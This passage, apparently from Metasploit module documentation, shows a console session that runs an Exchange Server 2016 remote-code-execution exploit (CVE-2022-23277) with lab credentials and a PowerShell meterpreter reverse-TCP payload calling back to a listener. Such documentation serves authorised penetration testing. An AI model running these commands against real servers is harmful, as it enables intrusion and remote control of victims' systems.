 ```
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter >
```

### Exchange Server 2016 CU22 Jan22SU (Build 15.1.2375.18) on Windows Server 2016 x64 (CVE-2022-23277)

```
msf > use exploit/windows/http/exchange_chainedserializationbinder_rce
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf exploit(windows/http/exchange_chainedserializationbinder_rce) > show options

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b